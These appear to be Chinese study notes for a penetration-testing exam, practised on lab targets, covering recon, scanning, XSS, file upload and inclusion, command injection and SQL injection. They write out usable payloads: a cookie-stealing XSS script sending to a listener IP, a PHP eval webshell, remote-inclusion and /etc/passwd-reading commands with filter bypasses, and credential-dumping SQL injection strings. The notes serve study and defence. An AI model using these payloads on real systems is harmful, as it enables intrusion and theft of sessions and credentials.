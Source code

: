# PTE学习笔记

靶机：pikachu、  dvwa、upload-labs、xss.haozi.me

环境机房：11.1.10.0/24、10.1.10.0/24

[TOC]



# web安全简介

## 基础术语

1.exp、poc区别：

exp带有恶意行为，发生了攻击的操作；poc只是验证漏洞的存在

2.提权：

www-data > root

webshell > mstsc

## 主流攻击手段

- 应用层:弱口令攻击、配置缺陷、应用漏洞、SQL注入/XSS/CSGF/。。。
- 网络层和主机层：Ddos攻击、远程溢出攻击、ARP欺骗攻击、木马及蠕虫病毒

## 渗透测试过程（七）

- 前期交互阶段：与客户进行交互讨论，确定渗透测试范围、目标、限制条件以及服务合同等细节。 
- 情报收集阶段：利用各种信息来源与搜索技术方法，尝试获取更多关于目标组织网络 拓扑、系统配置与安全防御措施的信息。 
- 威胁建模阶段：在收集到充分的信息进行威胁建模与攻击策划，确定出最可行的攻击通道。
-  漏洞分析阶段：找出可以实施渗透攻击的攻击点，或者针对系统与服务进行安全漏洞 探测与挖掘。
-  渗透攻击阶段：获取访问控制权。
-  后渗透攻击阶段：寻找客户组织最具价值和尝试安全保护的信息和资产，最终达成能够对客户组织造成最重要业务影响的攻击途径。
- 报告阶段：渗透测试的过程详细描述，以及修补与升级技术方案

## OWASP TOP　10

https://blog.csdn.net/qq_52469895/article/details/124289044

# 信息收集

## 目的作用

- 了解安全架构：信息收集使攻击者能够了解组织完整的安全架构 

- 缩小攻击范围：通过IP地址范围、网络、域名、远程访问点等信息，可以缩小攻击范围 

- 建立信息数据库：攻击者能够建立他们自己的相关目标组织安全性弱点的信息数据库来采取下一步的入侵行动 

- 描绘网络拓扑：攻击者可以描绘出目标组织的网络拓扑图，分析最容易进入 的攻击路径 

  信息收集对于渗透来说是非常重要的一步，收集的信息越详细对以后渗透测试的 影响越大，毫不夸张的说，信息的收集决定着渗透的成功与否

## 分类

- 被动信息收集：被动信息收集也就是说不会与目标服务器做直接的交互、在不被目标系统察觉的情况下，通过搜索引擎、社交媒体等方式对目标外 围的信息进行收集，例如：网站的whois信息、DNS信息、管理员以及工 作人员的个人信息等等。 
- 主动信息收集：主动收集会与目标系统有直接的交互，从而得到目标系统相关的一些情报信息。例如：主机开发的端口、站点的目录结构等等。 

## 收集内容

![image-20230828231811864](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230828231811864.png)

## 方法

1.搜索引擎

 百度、谷歌语法，如：site:edu.cn intext:后台管理、inurl admin

3.人肉搜索     恶俗维基

3.社工库（20-30）

4.网站信息收集     

![image-20230611202209113](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230611202209113.png)

源码查看：右键”查看网页源代码“

cookie查看：右键”检查“-Application-

5.站长工具

6.邮件信息

![image-20230611203330964](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230611203330964.png)

7.shodan搜索引擎

用于搜索端口设备等物理层的搜索引擎，基于拦截器，对来自各种设备的HTTP header以及其他标志性信息进行检索，以用来对web服务进行细节分析。

![image-20230828233540879](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230828233540879.png)

![image-20230828233923911](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230828233923911.png)

8.Whois信息收集（查询域名）

9.DNS解析记录 

- A    域名指向ip      8023.io     182.47.6.80
- AAAA        域名指向ip      8023.io     2408:8215:b1b::1
- cname   域名指向域名     8023.io     8023.net
- MX       域名指向ip（电邮专用）     8023@8023.io    8023.io       182.47.6.80
- TXT      记录任何事情 （一般用于验证域名所有权） 
- NS      指定域名解析服务器     a.8023.io     11.1.1.1
- PTR    ip指向域名

10.DNS查询

`nslookup  www...域名`

`dig`

11.确定网络地址范围

国内：CNNIC.cn

国外：netcraft    （攻击时建议禁用，因为会对某些恶意url进行禁止访问）

主要查看网站的status、inetnum

> 专线： ASSIGNED NON-PORTABLE    如：IDC机房、企业出口等
>
> 家宽/流量：ALLOCATED PORTABLE （ip段不可利用）

12.社交网站

13.社工

14.指纹识别

常见的CMS：Dedecms（织梦）、**Discuz**、PHPWEB、PHPCMS、**PHP Wind**、ECShop、Dvbbs、SiteWeaver、ASPCMS、帝国、Z-Blog、**WordPress**等

CMS识别工具：御剑、WhatWeb、webRobo、椰树等。

插件：Wappalyzer

15.查找WEB站点真实ip

- 判断目标是否使用了CDN云加速

  - ping主域，通过爆出的IP去直接访问看响应内容或者在微步检索分析
  - 多地点ping
  - 在线网站    www.17ce.com

- 绕过CDN找真ip

  - 查询历史DNS记录       

    -  dnsdb.io      
    - 微步在线

  - 当前MX记录查询（邮件服务器与web服务器托管于相同的ip），或者在相同网段——可结合CNNIC查是否专线来扫描段

  - 查询子域名

    - 微步在线

    - dnsdb.io

    - Google搜索     

      如：site：baidu.com -www

    - 子域名扫描器

  - 网络空间引擎

  - SSL证书寻找真实ip     

    - 搜索框查看——公用名

      查看证书是否有效？颁发者 、详细信息中查看证书链（3-4层）

    - Censys搜索引擎

      有效证书搜索参数：parsed.names:xxx.com and tags.raw:trusted

  - HTTP标头寻找真实ip

    Security Trails、Censys

  - 利用网站返回内容查找

  - 使用国外主机解析域名

  - 网站邮件订阅referer查找

  - Zmap扫全网

  - F5 LTM解码法

    当服务器使用F5LTM做负载均衡时，通过对set-cookie关键字的解码真实ip也可被获取，例如: Set-Cookie:BIGipServerpol 8.29 8030=487098378.24095.0000，先把第一小节的十进制数即487098378取出来，然后将其转为十六进制数1d0888a，接着从后至前，以此取四位数出来也就是0a.88.08.1d，最后依次把他们转为十进制数10.136.8.29，也就是最后的真实ip

- 验证获取到的ip

  直接ip访问来对比页面内容是否一致，访问成功，则一定是真实ip；访问不成功，则不一定 不是真实IP（与备案与否有关，可通过未备案域名cname解析到相应站点，向工信部举报来实施关站攻击。一般通过对host头进行判断是否等于备案域名来允许正常访问，所以访问ip不成功并不能验证该ip是否为真实ip）

16.收集敏感目录文件

DirBuster，OWASP ZAP（kali）

# 代理

**功能**：突破自身ip访问限制、访问内部资源、突破运营商IP封锁、提高访问速度、隐藏真实ip

**方式**：

HTTP代理: 4层或以上数据，http、ftp等等 

socks代理: 3层或以上数据，http、ftp、tcp、udp等(网游加速器、翻墙软件)

VPN代理: 2层或以上数据，ICMP、ARP全协议等(真题环境openvpn)

- TUN模式
- TAP模式

**利用**：

1. 隐藏源地址，所以攻击可以在无任何法律论据的情况下入侵； 
2. 通过冒充一个代理的源地址来掩盖实际的攻击地址； 【Tor】
3. 远程访问内网和其他通常禁止访问的网页资源； 
4. 拦截所有攻击者发送的请求并将其它们转换为第三个目标，因此受害者将只能识别代理服务器地址； 
5. 攻击者将多个代理服务器链接起来以避免被探测到。【Tor】

# 漏洞扫描

### 主机扫描

namp扫描——判断存活主机

- 指定ping包个数
  - windows       Ping –n 2 200.200.0.20 
  - Linux              Ping –c 2 200.200.0.20 

- 不间断发送ping包 Ping – t 200.200.0.20 

- 指定ping包字节大小 Ping –l 1000 200.200.0.20

namp——主机存活批量扫描（ping扫射）

原理：客户端对每个ip做出ICMP echo request请求，存活主机作出ICMP echo reply回应，服务端完成统计

```
namp -sn   200.200.0.20
namp -sn   200.200.0.20-29
namp -sn   200.200.0.0/24
```

### 端口扫描

#### 端口分类

1.公认端口

   • 0～1023的端口是公认的、知名的端口 ，需要ROOT权限才可以操作

   • 0～255之间的端口由 因特网名称与数字地址 分配机构（ICANN） 管理

2.注册端口

​    主要用于服务器对外提供服务 ， 端口范围：1024～ 49151

3.动态/私有端口

​    用于分配给用户编写的 客户端应用程序 ， 端口范围：49152～ 65535

#### 扫描

```
namp -p 1-65535 -T4 -A -v 11.1.10.11
```

-T4扫描速度，-A全部扫描，-v展示详细信息

### 服务扫描

#### Banner提取

1.CURL   

​       curl --head 域名/ip

2.NetCat

​       nc -vv ip 11.1.10.11 34011

​       GET / HTTP/1.0

3.浏览器访问中，F12在Network中查看响应头

4.NMAP

```
namp -sV -p 34011 11.1.10.12
```

#### 操作系统识别

```
namp -O 11.1.10.11
```

1. **操作系统TTL值不统一** 

   - linux：64

   - windows：128

   - ios：255

     *注：TTL比预期小是因为中间存在路由，一个路由-1*

   ​          企业网不允许私接路由，通常在交换机上设置终端主机TTL为1，加路由后TTL=0，限制转发数据

2. **开放端口差异**

3. **应用服务标识符差异**

### 漏洞扫描

#### 主机层

**Nessus**

**Openvas**(免费但漏洞库更新慢)

#### 网络层

**AVWS**

**AppScan**

web扫描，支持简体中文，一边扫描一边保存，支持断点续扫，支持中文报告

# HTTP协议

## 1.http报文传送

http2.0及以下使用了面向连接的tcp作为传输层协议，保证了数据的可靠传输。http不考虑数据在传输过程中被丢弃后又怎样重传。从层次的角度上看，http是面向事务的应用层协议。

http协议建立前无连接、无状态（无事务处理记忆）

http/1.1，持续连接（非流水线和流水线方式）

## 2.http报文

![抓包详解](https://gitee.com/Wizo142857/cloudimages/raw/master/img/%E6%8A%93%E5%8C%85%E8%AF%A6%E8%A7%A3.jpg)

![image-20230611093442066](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230611093442066.png)

CR——回车0d        光标回退到本行最前

LF——换行0a         光标跳转到下行最前

### 2.1请求报文方法

![image-20230611093228075](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230611093228075.png)

**GET与POST区别**

get回退无害，post则需再次提交表单；

GET请求只能进行url编码，而POST支持多种编码方式。

如果需要传送大量数据的时候，不适合使用GET方式。

GET产生一个TCP数据包；POST产生两个TCP数据包。对于GET方式的请求，浏览器会把http  header和data一并发送出去，服务器响应200 （返回数据）； 而对于POST，浏览器先发送header，服务器响应100 continue，浏览器再发送data，服务器响应200 ok（返回数据）。

### 2.2HTTP请求方法

- GET：GET方法用于获取请求页面的指定信息。如果请求资源为动态脚本（非 HTML），那么返回文本是Web容器解析后的HTML源代码。GET请求没有消息主体，因此在消息头后的空白行是没有其他数据。
-  POST：POST方法也与GET方法相似，但最大的区别在于，GET方法没有请求内容， 而POST是有请求内容的。 
- HEAD：这个请求的功能与GET请求相似，不同之处在于服务器不会再其响应中 返回消息主体，因此，这种方法可用于检查某一资源在向其提交GET请求前是否 存在。 
- PUT：PUT方法用于请求服务器把请求中的实体存储在请求资源下，如果请求资源已经在服务器中存在，那么将会用此请求中的数据替换原先的数据。向服务 器上传指定的资源。

### 2.3HTTP状态码

[HTTP 状态码 | 菜鸟教程 (runoob.com)](https://www.runoob.com/http/http-status-codes.html)

![报文状态码](https://gitee.com/Wizo142857/cloudimages/raw/master/img/%E6%8A%A5%E6%96%87%E7%8A%B6%E6%80%81%E7%A0%81.jpg)

## 3.URI

统一资源标识符（编号方式，类似身份证号码）

3.1 **URL**

统一资源定位，并且表示全球唯一路径（定位方式）

![image-20230611100114271](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230611100114271.png)

3.2 **URN**

统一资源命名，是通过名字来标识资源，给每个文件进行编号

如：![image-20230611100322689](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230611100322689.png)

## 4.Cookie

Cookie表示http服务器和客户之间传递的状态信息，用来识别用户身份。

劣势：（存在客户端）可篡改、（多cookie）加重网络负担

**cookie与session区别：**

Cookie保存在客户端浏览器中，而Session保存在服务器上。

Cookie表示http服务器和客户之间传递的状态信息，用来跟踪用户会话。cookie里面包含sessid，相当于session的索引，cookie等同与session ID 【cookie信息不会被清除】；

Session用于在用户身份验证后跟踪用户行为轨迹【session会定时失效】

cookie”客户通行证确认“；session”客户明细表确认“

## 5.危险头部参数

- User-Agent：中文名为用户代理，简称 UA，它是一个特殊字符 串头，使得服务器能够识别客户使用的操作系统及版本、CPU  类型、浏览器及版本、浏览器渲染引擎、浏览器语言、浏览器插件等。一些网站常常通过判断 UA 来给不同的操作系统、不同的浏览器发送不同的页面，因此可能造成某些页面无法在某 个浏览器中正常显示，但通过伪装UA可以绕过检测。 
- X-Forwarded-For：简称XFF头，它代表客户端，也就是HTTP的请 求端真实的IP，只有在通过了HTTP 代理或者负载均衡服务器时 才会添加该项。格式为：X-Forwarded-For: client1, proxy1, proxy2。 XFF 的内容由「英文逗号 + 空格」隔开的多个部分组成，最开始的是离服务端最远的设备 IP，然后是每一级代理设备的 IP。
-  Referer：网站来路。HTTP Referer是header的一部分，当浏览器 向web服务器发出请求的时候，一般会带上Referer,告诉服务器 用户从哪那个页面连接过来的，服务器由此可以获得一些信息用来处理
-  Cookie：客户端发回给服务器证明用户状态的信息（头：值成对出现） 
-   Host：基于host头进行安全限制很容易被修改绕过
-  Set-Cookie：服务器发给客户端的SessionID （存在被窃取的风险，可 冒充别人身份） 
- Content-Length：响应body部分的字节长度【用于模糊测试】 • Location：重定向用户到另一个页面，可识别身份认证后允许访问的 页面

## 6.HTTP消息头

![消息头](https://gitee.com/Wizo142857/cloudimages/raw/master/img/%E6%B6%88%E6%81%AF%E5%A4%B4.jpg)

**常见请求头**

① Host 请求报头域主要用于指定被请求资源的Internet主机和端口。

② User-Agent 请求报头域允许客户端将它的操作系统、浏览器和其他属性告诉服 务器。 

③ Referer 包含一个URL，代表当前访问URL的上一个URL，也就是说，用户是从什 么地方来到本页面。当前请求的原始URL地址。 

④ Cookie 是非常重要的请求头，常用来表示请求者的身份等。 

⑤ Accept 这个消息头用于告诉服务器客户端愿意接受哪那些内容，比如图像类， 办公文档格式等等。

**常见响应头**

 ① Server 服务器使用的Web服务器名称。

 ② Location 服务器通过这个头告诉浏览器去访问哪个页面，浏览器接收到这个请求 之后，通常会立刻访问Location头所指向的页面。用于在重定向响应中说明重定 向的目标地址。

 ③ Content-Type 这个消息头用于规定主体的内容类型。例如，HTML文档的内容类 型text/html。

 ④ Content-Encoding 这个消息头为消息主体中的内容指定编码形式，一些应用程序 使用它来压缩响应以加快传输速度。

 ⑤ Content-Length 消息头规定消息主体的字节长度。实体头用于指明实体正文的长 度，以字节方式存储的十进制数字来表示。

 ⑥ Connection 允许发送指定连接的选项。

**拦截http请求**

![image-20230611104718352](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230611104718352.png)

# 暴力破解

暴力破解也被称为枚举测试、穷举法测试，是一种针对密码破译的 方法，即：将密码逐个比较，直到找出真正的密码为止。(弱口令扫描 也属于此类范畴)

## burpsuit抓包

- burp抓包注意项

> 关闭 firefox多余的联网检测包：
>
> ```
> 新的标签页搜索框输入about:config——captive——双击true改为flase
> ```

- burp配置浏览器代理

浏览器插件/系统代理（手动配置且”不使用代理清空“）

注：二者不可都配置

## 分类

**C/S架构**

- Hydra九头蛇  、   hashcat（前提是通过抓包获取密文，在本地爆破）可通过显卡来跑

**B/S架构**

Burpsuit的Intruder模块

攻击类型：

- sniper：一个变量 一个字典  ，爆破路径、指定用户名的密码

- battering ram：一个字典  两个参数

- pitchfork：两个字典  两个参数  同行匹配   一一对应（常用于撞库）  

  ```
             a1 b2 c3
  ```

- cluster bomb： 两个字典   两个参数    排列组合，穷举所有可能交叉破解

```
              a1 b1 c1

              a2 b2 c2

              a3 b3 c3
```



## 靶机演示

[ 暴力破解浅析_歪曌的博客-CSDN博客](https://blog.csdn.net/weixin_42596710/article/details/131166007?spm=1001.2014.3001.5502)

## 防止暴力破解

1.密码复杂性

2.验证码

3.登录策略（限制登录错误次数）

# 验证码爆破

服务器验证码漏洞

1.验证码的时效性

2.空的身份认证信息

![image-20240103153155483](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20240103153155483.png)

抓包发送至攻击器

![image-20240103153406967](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20240103153406967.png)

**删cookie、删code（即sessionid=空  code=空 ），只保留password变量**

进行爆破

# XSS

## 原理

形成XSS漏洞的主要原因是程序中输入和输出的控制不够严格， 使得攻击者可以通过“精心构造” 的脚本输入后，在输出到前端时被浏览器当作有效代码解析执行。

XSS漏洞可以用来进行钓鱼攻击、前端js挖矿、盗取用户cookie，甚至对主机进行远程控制，是代码注入漏洞的一种。

## 攻击流程

![image-20230612224500493](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230612224500493.png)

## XSS恶意脚本形式

1. 利用XSS弹警告框：

<script>alert(‘xss’)</script>

2. 获取cookie值：

<script>alert(document.cookie)</script>

3. 点击触发超链接

    <a href=javascript:alert(111)>

4. body体执行完之后加载....

   <body onload=alert(1)>

5. <img src=x onerror=alert(1)>

   x为url，img标签向x发送一个GET请求并将请求结果当作图片来展示；url执行不成功则执行后面的onerror方法

6. 点击块执行

   【<div onclick="alert=('xss')">】

7. 嵌入其他网站：

【<iframe src="http://www.xxxxx.com" width="0" height="0"></iframe>】

8. XSS输入也可能是HTML代码段，如使网页不停刷新：

<meta http-equiv="refresh" content="0;">

## 攻击类型

### 存储型

攻击方式：这种攻击多见于论坛、博客和留言板，攻击者在发帖的过程中，将恶意脚 本连同正常信息一起注入帖子的内容中。随着贴子被服务器存储下来，恶意脚本也永 久的存放在服务器后端存储器当中了。当其它用户浏览这个被注入了恶意脚本的帖子 时，恶意脚本会在他们的浏览器中得到执行。

**特点**：交互的数据会被存在数据库里面，永久性存储，一般出现在留言板，注册等页面

### 反射型

攻击方式：攻击者通过电子邮件等方式将包含XSS代码的恶意链接发送给受害者，当受 害者访问链接时，服务器接收此受害者的请求并进行处理，然后服务器把带有XSS代码 的数据发给受害者的浏览器，浏览器解析这段带有XSS代码的恶意脚本后，就会触发 XSS漏洞。

**特点**：交互的数据一般不会被存在数据库里面，一次性，所见即所得，一般出现在查询页面等

### DOM型

DOM XSS是页面中原有的JS代码执行后，需要进行DOM树节点的增加 或者对现有元素的内容进行修改，引入了被污染的变量，从而导致XSS。

**特点**：不与后台服务器产生数据交互，是一种通过DOM操作前端代码输出的时候产生的问题。服务端函数**document.body.innerHtml**等函数（既有输入，也有输出）引用某些变量时没有进行过滤或检查，就会产生DOM型XSS。

关于DOM

DOM的全称为Document Object Model，即文档对象模型，DOM通常用于代表在 HTML、XHTML和XML中的对象。使用DOM可以允许程序和脚本动态地访问和更新文档 的内容、结构和样式。根据DOM规定，HTML文档中的每个成 分都是一个节点。

## 危害

① 网络钓鱼，包括盗取各类用户账号 

② 窃取用户cookie资料，从而获取用户隐私信息，或利用用户身份进一步对网站执行操作 

③ 劫持用户（浏览器）会话，从而执行任意操作，例如进行非法转账，强制发表日志，发送 电子邮件等 

④ 强制弹出广告页面，刷流量等 

⑤ 网页挂马 

⑥ 进行恶意操作，例如任意篡改页面信息，删除文章等 

⑦ 进行大量的客户端攻击，如DDOS攻击 

⑧ 获取客户端信息，例如用户的浏览历史，真实ip，开放端口等 

⑨ 控制受害者机器向其他网站发起攻击 

⑩ 结合其他漏洞进一步扩大攻击 

⑪ 提升用户权限，包括进一步渗透网站 

⑫ 传播XSS跨站脚本蠕虫等

## 测试流程

**手工**

1.可得知输出位置时

① 在目标上找输入点，比如查询接口、留言板 

② 输入一组 “特殊字符（>，‘，”等）+唯一识别字符” ， 点击提交后，查看返回源码，看后端返回的数据(输出点)是 否有处理（过滤、转义等） 

③ 通过搜索定位到唯一字符，结合唯一字符前后语法确定 是否可以构造执行js的条件（构造闭合\构造payload）目的 只有一个：让输入的数据（从属性或者标签当中逃逸出来） 变成代码来执行 

④ 提交构造的脚本代码（以及各种绕过姿势），看是否可 以成功执行，如果成功执行则说明存在XSS漏洞

2.无法得知输出位置时

通常可以采用" " />XSS来测试

**工具**

appscan、awvs、burpsuit

## 防御原则

输入过滤，输出转义。

方法：

HttpOnly cookie——不允许通过javascript语句获取cookie

特定标签过滤、事件过滤、敏感关键字（字符）过滤等，同时浏览器也会对XSS漏洞的利用进行限制（ XSS Auditor 、CSP内容安全策略等）。

过滤特殊符号，如<> '' "" () 空格等等，进行转义。

定制CSP（内容安全策略），采用黑名单或白名单加载或执行

规范web安全编码，输出内容进行HTML实体转义或JS转义。

## xss构造

firefox须关闭Nctcraft组件！！！

### GET型XSS反射、存储

<script>alert(1);</script>  
#注意输入的长度限制，可以通过前端来更改表单

提交之后可以通过直接复制url去达到目的

### POST型XSS反射

测验与GET提交一样，登录之后提交就可在本地验证

实际利用：

构造一个点击请求触发的页面

```html
<html>
    <head>
        <script>
            window.onload=()=>{
               document.getElementById("submit").click();
               //获取“submit”元素ID进行点击
            };
            //设置载入成功之后进行点击
        </script>  
        <!--script用来生成自动提交-->
    </head>
    <body>
        <from method="post" action="url" hidden>
       <!--action设置提交的位置（即需要触发的页面），防止自提交页面的死循环；并hidden隐藏提交表单-->
            <input class="xssr_in" name="message" type="text" value="<scrpit>alert(1);</script>">  
            <!--value用来自动赋值给提交框“text”内容-->
            <input id="submit" class="xssr_submit" name="submit" type="submit" value="submit">
        </from>   
        <!--from表单是要攻击页面的输入与提交框表单，右键查看元素可获取-->
    </body>
</html>
```

### XSS测试平台

 https://xss.yt

beef(须部署kali公网地址)

https://xss.haozi.me

### **手动构造

伪造cookie信息进行登录的实现：

#### 1.构造js脚本获取cookie

第一步：**获取cookie**

控制台获取document.cookie

第二步：**发送cookie**

![image-20230612092232975](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230612092232975.png)

<script>
	document.write(	
		'<img src="http://11.1.12.101:8011/?'+
		 document.cookie+
		'"/>'	
	//利用img标签特性，生成src的GET请求并获取请求页面cookie，然后作为图片去展示；	
	);
//通过document.write写到网页中来-执行img标签-去触发指令-生成一个含cookie的GET请求
</script>

<!--因为src=“”中引号内容只会作为数据字符串进行展示，所以需引进script脚本去执行document.cookie。对标签和执行内容进行‘单引号’分隔和【数据+指令+数据】的拼接-->

<!--此处的ip地址应是能接受cookie的服务器地址，比如此处vpn分配给本机的ip-->

原理：构造一个访问请求来盗取浏览器页面的cookie

第三步：**接收cookie**

攻击机：接收

shift+右键“在此处打开命令行窗口”，进行端口监听

```
nc  -lp  8011
```

注：**端口号须一致**

​        **监听成功的数据包useagent有“PhantomJS”浏览器指纹（仅限于考试环境）**

#### 2.替换cookie实现登录

- 复制nc监听到的GET数据包cookie，替换到要绕过的登录页面

  chrom：右键检查——Application——修改sessionid

  firefox：小画板search——修改sessionid

- 然后地址栏访问主页面（不是刷新登录页面），eg: 127.0.0.1:8082

#### 3.实施过程

[XSS cookie伪造攻击 - Dawns_- - 博客园 (cnblogs.com)](https://www.cnblogs.com/Seadawns/p/17477437.html)

# 文件上传

## 原理

通常是由于对上传文件的类型、内容没有进行严格的过滤、检查或者过滤被成功绕过，使得攻击者可以通过上传木马获取服务器的webshell权限。

## 绕过方式

### 基于前端校验的上传

关闭js插件绕过文件后缀校验，上传.php文件

<?php phpinfo();?>

### MIME类型校验

Content_Type——http包

$_FILES [' '] ['type']——php

**phpinfo 可以输出php的环境信息，其中document_root为web网站目录的绝对路径**

## 实施利用

- 一句话木马文件+hackbar插件实现webshell命令操作

  ```
  <?php @eval($_POST['x']);?>
  
    //eval把（）中的内容当作PHP脚本去解析并执行
  
    //$_POST[]是用户提交的数据
  
    //@是关闭错误输出
   
  ```

  ![image-20230614162431471](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230614162431471.png)

- 一句话木马文件+webshell工具

  蚁剑、菜刀、冰蝎

  ![image-20230614163414812](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230614163414812.png)

# 文件包含

1.考试类型

picshell.php

2.考察

**(对关键字双写或大小写绕过)**

## 文件包含过滤手法

- /etc/passwd    C:\Windows\win.ini
- file=../../../../../../etc/passwd
- file=upload/2220230829135924.jpg         

​         

- file=picshell.jpg                          //直接包含

- file=....//....//picshell.jpg              //目录穿越

- file=filexxx/../../../hackable/uploads/picshell.jpg              //构造不存在的目录进行回退包含

- file=file:///C:/phpstudy_pro/WWW/dvwa/hackable/uploads/picshell.jpg         // file协议后跟绝对路径  

- file=php://input    [post data] 中写入   <?php phpinfo(); ?>           //将post表单中的内容当作文件内容进行包含

  **有后缀的突破：**

- file=data://text/plan,<?php @eval($_POST['x']); ?>               //将逗号之后的内容当作文件内容进行包含（当包含在末尾添加后缀的情况，如include{$_GET[file].".txt"}每次都会在包含文件后添加后缀）

- file=data://text/plan;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==

- 远程文件包含

  1.攻击机桌面创建shell.php文件

  2.本地桌面启动命令行进行端口监听

  ```
  python -m SimpleHTTPServer 8023 
  python -m http.server 8023      //二选一
  ```

  3.访问(攻击者)桌面本地shell文件

  file=http://11.1.10.250:8023/shell.php    

  4.蚁剑连接

- file=php://filter/read=convert.base64-encode/resource=fi_remote.php      //**读文件源码**（key作为注释或者变量被执行输出结果而不可见的情况）





- file=zip://shell.zip#shell.txt                  //包含压缩包内容

  #在url中表示锚点，后面的内容不传输到服务器，所以需要对#URL编码为%23

  

- include('ssssss' . $_GET['x']);

- include($_GET['x'] . '.txt');          //远程包含

# 解析漏洞

![中间件解析漏洞](https://gitee.com/Wizo142857/cloudimages/raw/master/img/%E4%B8%AD%E9%97%B4%E4%BB%B6%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E.png)

# RCE

## 连接符

`|   ||    &     &&      ；`

## 读文件

【考点】grep、diff

```
cat /etc/passwd   顺序读取
tac /etc/passwd   倒序读取
head /etc/passwd
tail /etc/passwd
more /etc/passwd
less /etc/passwd
grep '' /etc/passwd          grep . /etc/passwd     过滤输出
awk {print} /etc/passwd     按照指定格式解析输出或者指定某几行输出
sed '' /etc/passwd      修改文件内容
cp /etc/passwd /dev/stdout    复制
diff /etc/passwd /etc/hostname   对比
xxd /etc/passwd    输出二进制
od -a /etc/passwd    二进制
nl /etc/passwd    带行号输出
sort /etc/passwd  排序
uniq /etc/passwd
base64 /etc/passwd  绕过输出的内容（关键字）过滤
curl file：////etc/passwd
```

## 空格过滤

cat$IFS$9/etc/passwd

cat${IFS}/etc/passwd

cat</etc/passwd

cat<>/etc/passwd

{cat,/etc/passwd}

f=$'\x20/etc/passwd'&&cat$f

## 指令关键字过滤

c''at /etc/passwd             （此处为一对单引号）

ca\t /etc/passwd

## 文件名关键字过滤

cat /etc/passw*       通配符

## 替换为空

cacatt /etc/passwd

## 防范方式

1.尽量不要使用命令执行函数

2.在进入执行命令函数/方法之前，变量做好过滤，对敏感字符转义

3.在使用动态函数之前，确保使用的函数是指定的函数之一

4.客户端提交的变量在进入执行命令函数之前要做好过滤和检测



# SQL注入

## SQL语言

结构化查询语言

六大部分：

## 定义

通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。 

具体来说，它是利用现有应用程序，将（恶意）的SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一 个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句

## 成因

未对用户提交的参数数据进行校验或过滤，直接进行SQL语句拼接，改变了原有SQL语句的语义，传入数据库解析引擎中执行。

## 注入场景

一切用户可控参数的地方，比如：URL路径、GET/POST请求参数、HTTP请求头

![image-20230617180709340](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230617180709340.png)

## information_schema（Mysql>5.0）

如MySQL数据库中系统自带的information_schema信息 数据库中保存着关于MySQL服务器所维护的所有其他 数据库的信息，当前MySQL实例中所有数据库的信息 存放在SCHEMATA表，所有表信息存放在TABLES表中， 所有表中列（字段、表名）信息存放在COLUMNS表中。

![image-20230617175944587](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230617175944587.png)

## 数据库注释语法

SQL Server和Oracle 

```
--       用于单行注释 

/* */    用于多行注释
```

Mysql 

```
--%20     用于单行注释 (要求第二个-后面跟一个空格或控制字符，如制表符，换行符等) 
#         用于单行注释 
/* */     用于多行注释
```

## 手工注入

**注入点**   

sql查询语句的参数在哪个页面输入

**执行点**   

sql查询语句在哪个页面中拼接并执行

**回显点**   

sql查询语句执行的结果在哪个页面显示

### SELECT注入 

1.寻找注入点      get、post表单 

2.触发异常，确认注入点    

```
%'"）;-- #

% 闭合模糊查询（搜索型）
) 闭合insert语句
-- 和#  用来注释后面的语句
```

  用以上字段带入去触发回显，筛选适用的符号注入

^3.找前后闭合（区分类型）

 前闭合：

```
'      "       ')      ")      %'      %"     %')       %")       无闭合
```

后闭合：

```
'      "       ('      ("      '%      "%     ('%      ("%        #        --空
```

通过猜测和报错去尝试

**常用闭合符号：查询   '  "           插入    ')      ")          模糊查询   %'        其他情况    #   --空**

^4.执行测试（确定闭合）  

在前闭合或后闭合之间插入测试语句，对比两次执行结果，有报错即语句被执行，与数据库有交互。

1 and 1=1      执行结果为真恒等 

1 and 1=2      执行结果为假恒等

5.确定列数

```
1 order by  *  
```

​    *代入数字，由范围排序的报错来定位出具体列数 （二分法）

*注：空格被过滤，可以用/**/来过滤*

6.确定回显点

```
id=-1 union select 1,2 
```

select 后面的1，2意思是输出一个一行两列的数据；

union select 需要前后查询的字段数一致，通过order by来确定；

 **id=-1是因为大多网站只显示查询到的第一行数据，改为-1让默认语句查不到数据，进而输出自定义的select数据；**

7.获取数据库名

```
-1 union select 1,database()
```

8.获取表名

```
-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='pikachu')
```

group_concat是将多个表名打包成一个数据来输出

9.获取列名

```
-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users')
```

10.获取数据

```
-1 union select 1,(select group_concat(usermane,':',password separator '</br>') from users)
```

':'     分隔符

separator '</br>'       每行数据换行符

#### 插件辅助

获取表名

Firofox——UNION BASED——Tables

获取字段……Cloumns

获取数据……Data

注意：post请求中，自动生成的查询语句会使用URL编码【+或%20】来替换空格进行串联，但是实际中post不用替换空格，需要手动改回空格。适用于get请求。

#### 思路

1.不用注释

找前闭合或者后闭合，尝试用union select ‘’去判断回显

2.绕过注释

注释符交叉复写，如-#- 

并对注释符进行必要的URL编码，如-%23-%20

## SQLMAP注入

sqlmap.py 

- 指定攻击目标

`-u "http://xxx.com/index.php?id=1"       指定URL`            

`-p id                           指定参数`

`-r req.txt                   以现有数据包做模版，攻击`

